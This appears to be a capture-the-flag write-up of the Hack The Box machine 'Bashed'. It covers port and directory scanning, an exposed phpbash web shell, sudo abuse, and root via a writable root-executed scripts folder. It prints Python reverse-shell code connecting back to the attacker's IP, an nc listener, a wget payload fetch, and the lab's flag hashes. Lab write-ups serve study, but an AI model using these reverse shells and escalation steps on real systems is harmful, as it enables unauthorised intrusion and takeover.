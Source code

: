 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Bashed
tags: []
---
```

**Start 14:44 05/08**

---

```
10.10.10.68
```

## Nmap recon

==Quick scan==
The quick scan shows only port `80`:

```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.68
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-04 16:39 IST
Nmap scan report for 10.10.10.68
Host is up (0.019s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.36 seconds
```

==Thorough scan==
The more thorough scan yields the same results, only port 80 seems to be open:

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -p- 10.10.10.68
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-04 16:41 IST
Nmap scan report for 10.10.10.68
Host is up (0.023s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.64 seconds
```



## 80/TCP - HTTP

After heading to the website we are greeted with this page:

![](../../../assets/3558d85235143841e3e37782d4a42a46.png)

It appears that it is a site promoting a `phpbash script` developed and tested on the same exact machine we are on. 

![](../../../assets/d079dd3ed5b548b8de141f33082e8343.png)

It shows a screenshot with the endpoint being `/uploads/phpbash.php` so let's try to download the script and try to upload it on the website.

Heading towards [this link](https://github.com/Arrexel/phpbash) we find the instructions as well as the script itself.

![](../../../assets/bbab863ef569ed36c8bda69cf1f1c41d.png)

It's pretty self explanatory to be honest.

==Gobuster==
Next up we'll do a directory enumeration for good measure to find out what endpoints the site has. Let it run for a while, and we find the `/dev` directory which seems interesting to us:

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.68/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/server-status        (Status: 403) [Size: 299]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Heading into the `/dev` directory we find the already working script, which means we don't have to upload it, but just need to click on the `phpbash.php` link and we get a working shell:

![](../../../assets/a4538904907f54e2c59254d1c835cc40.png)

![](../../../assets/14b71bd53e6af764a8619e7e1bda8ea6.png)

In here it is pretty straightforward stuff again.

## Flags

==user.txt==
This one is easy as always, head into the `/home` directory where you will find the `arrexel user`, just head into his directory and the `user.txt` flag is there:

![](../../../assets/ecc9da37de59acc22fc2ba10d9cf73fe.png)

```
a2c20510bc6bc08e4446522959067bd3
```

==root.txt==
After this we want to escalate privileges in order to get the `root flag`.
We start of by using `sudo -l` and find out:

![](../../../assets/2c6c95e97445b6d80b4e5dbb51328782.png)

We notice that we can run any and all commands as the user `scriptmanager`. All we need to do now is use [the following technique]():

```bash
sudo -u scriptmanager bash -i
# This will spawn a bash shell and give full read/write access to /scripts
```

But since this does not work in the `phpbash shell` in the web browser we'll have to execute it through our own local machine:

![](../../../assets/c87273a27b8dbe66a4d3bce7dab21bc8.png)

Thus we will have to set up a listener on our local machine:

```bash
nc -lvnp 1234
```

And run this in the web browser:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.53",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Run it as a one-liner since you cannot yet modify files
```

And after we run everything successfully we can execute the previously mentioned command to escalate privileges:

![](../../../assets/aada2eee56dbdb7f85784a6c2d45ec5d.png)

We now have a folder we can access which we previously could not, namely `/scripts`. In here we find two files, a python file and a `.txt` file:

```bash
scriptmanager@bashed:/home/arrexel$ ls -ld /scripts
ls -ld /scripts
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun  2  2022 /scripts
scriptmanager@bashed:/home/arrexel$ cd /scripts
cd /scripts
scriptmanager@bashed:/scripts$ ls -l
ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Aug  5 06:28 test.txt
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ 
```

The interesting part here is that the `test.txt file is owned by root`. I tried editing the file but resulted to writing my own `reverse shell exploit` instead as per [Pentest Monkey's cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) (the Python one).

I just modified it to my own `IP_ADDR`, and made a new file called `test.test.py`:

```bash
import socket,subprocess,os  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect(("10.10.14.53",1235))  
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

I then started a `python -m http.server 80` on the `kali machine` and used `wget` to copy the exploit to the server:

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.68 - - [05/Aug/2024 14:51:55] "GET /test.test.py HTTP/1.1" 200 -
```

```bash
scriptmanager@bashed:/scripts$ wget 10.10.14.53/test.test.py
wget 10.10.14.53/test.test.py
--2024-08-05 06:51:56--  http://10.10.14.53/test.test.py
Connecting to 10.10.14.53:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 224 [text/x-python]
Saving to: 'test.test.py'

     0K                                                       100% 56.1M=0s

2024-08-05 06:51:56 (56.1 MB/s) - 'test.test.py' saved [224/224]
```

And just like the `test.py` file our exploit got executed after waiting for less than a minute and we got a `root shell`:

![](../../../assets/e8738850b9ce0233e6b73d799b4b45a0.png)


```bash
cd /root && cat root.txt
290bce0a28afd1f841d12da429fd2749
```


![](../../../assets/86fe183866b288f567d064df6e5840bc.png)

---
**Finished 15:58 05/08**


[^Links]: [[Hack The Box]] [[OSCP Prep]] 
